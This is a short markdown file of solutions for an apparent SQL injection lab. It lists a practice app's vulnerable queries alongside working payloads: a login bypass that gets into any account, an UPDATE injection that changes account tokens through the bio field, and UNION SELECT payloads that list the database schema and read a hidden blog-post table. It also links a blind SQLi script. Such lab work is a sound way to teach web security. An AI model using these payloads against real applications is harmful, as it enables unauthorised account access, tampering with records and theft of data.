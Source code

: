 # Third Laboratory (SQLi) Scripts

### Admin Login Credentials:

Query Executed:
```sql
SELECT id, username, password, bio, age, jackpot_val FROM user WHERE username = '_' AND password = '_'
```

Password to Log Into Any Account:
```sql
' OR ''='
```

---

### Get More Tokens through Update Profile:

Query Executed:
```sql
UPDATE user SET bio = '_' WHERE username = '_'
```

Bio to Change Account Tokens:
```sql
', tokens = '_
```

---

### View Secret Blogpost through Search:

Query Executed:
```sql
SELECT id, title, content FROM blog_post WHERE title LIKE '%_%' OR content LIKE '%_%'
```

Search to Find Secret Blogpost Table:
```sql
' UNION SELECT NULL, tbl_name, sql FROM sqlite_master --
```

Search to View Secret Blogpost:
```sql
' UNION SELECT id, title, content FROM secret_blog_post --
```

---

### Get s(..) Table Content:
- [Python Script](./BlindSQLi.py)
